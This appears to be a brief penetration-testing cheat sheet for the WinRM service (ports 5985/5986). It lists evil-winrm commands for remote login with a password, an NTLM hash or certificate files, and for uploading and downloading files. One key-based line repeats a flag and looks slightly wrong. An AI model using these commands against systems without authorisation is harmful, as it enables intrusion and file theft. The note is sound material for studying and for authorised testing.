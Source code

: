 # 5985,5986 - WinRM

Login with creds:

```sh
evil-winrm -i 192.168.244.162 -u 'jackie' -p 'Password123!'
```

Login with hash:

```
evil-winrm -i <IP> -u user -H ntlmhash
```

Login with key:

```
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S
evil-winrm -i <IP> -c certificate.pem -c <pub-key> -S
```



File upload and download:

```
upload <file>
download <file> <filepath-kali>
```
